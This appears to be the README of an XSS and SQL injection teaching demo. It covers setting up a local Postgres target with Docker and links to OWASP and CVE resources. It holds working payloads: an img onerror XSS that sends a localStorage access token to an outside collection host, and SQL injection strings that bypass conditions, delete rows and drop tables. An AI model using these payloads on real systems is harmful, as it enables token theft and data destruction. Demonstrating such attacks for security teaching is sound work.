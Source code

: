 # Setup

```sh
sudo docker run --name xss-demo-target-db -p 4242:5432 -e POSTGRES_PASSWORD=1234 -d postgres:latest
sudo docker exec -it xss-demo-target-db psql -U postgres
CREATE DATABASE target;
cat db.sql | sudo docker exec -i xss-demo-target-db psql -U postgres target
```

Add this to `.env`:

```
PGCONNECTION=postgres://postgres:1234@localhost:4242/target
```

PGPASSWORD=1234 psql -h frankfurt-postgres.render.com -U target target -f db.sql

```html
<img src="" onerror="console.log(localStorage.getItem('accessToken'))" >
<img src="" onerror="fetch('https://dropzone.onrender.com/?q='+localStorage.getItem('accessToken'))" >
```

# SQL Injection

```
' OR '0' = '0
p'); delete from post where ('1'='1
p'); drop table post; select * from users where ('1'='1
```

https://www.cvedetails.com/vulnerabilities-by-types.php
https://owasp.org/www-project-top-ten/
